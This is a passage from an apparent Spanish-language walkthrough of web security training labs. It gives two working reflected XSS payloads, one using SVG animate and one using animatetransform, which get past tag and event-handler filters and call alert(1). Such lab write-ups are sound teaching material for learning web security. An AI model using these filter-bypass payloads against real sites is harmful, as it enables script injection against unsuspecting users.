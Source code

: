 Entonces vamos al home del laboratorio para verificar que lo completamos.

![](img27.png)

## 8. Lab: Reflected XSS with event handlers and href attributes blocked

Payload

```
<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>
```

![](img28.png)

## 9. Lab: Reflected XSS with some SVG markup allowed

```
This lab has a simple reflected XSS vulnerability. The site is blocking common tags but misses some SVG tags and events.

To solve the lab, perform a cross-site scripting attack that calls the alert() function.
```

Payload

```html
<svg><animatetransform onbegin=alert(1)>
```

![](img29.png)

